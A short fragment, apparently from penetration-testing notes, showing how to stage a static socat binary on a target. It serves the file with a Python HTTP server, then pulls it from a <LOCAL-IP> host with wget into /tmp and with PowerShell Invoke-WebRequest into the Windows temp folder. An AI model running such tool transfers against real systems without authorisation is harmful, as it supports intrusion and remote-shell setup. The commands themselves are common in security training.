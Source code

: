 # socat
# Transferring static binary
```
sudo python3 -m http.server 80

wget <LOCAL-IP>/socat -O /tmp/socat
Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```
